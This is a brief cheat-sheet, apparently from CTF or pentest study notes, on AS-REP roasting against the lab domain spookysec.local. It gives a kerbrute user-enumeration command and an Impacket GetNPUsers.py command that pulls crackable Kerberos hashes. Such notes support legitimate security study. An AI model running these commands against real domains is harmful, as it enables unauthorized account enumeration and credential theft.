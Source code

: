 # 🔥 Asreproasting

## Kerbrute

```
kerbrute userenum --dc spookysec.local -d spookysec.local users.txt --downgrade
```

\
To get the hashes after verifying users: _**GetNPUsers.py**:_

```bash
GetNPUsers.py -dc-ip <ip> -usersfile users.txt spookysec.locald
```
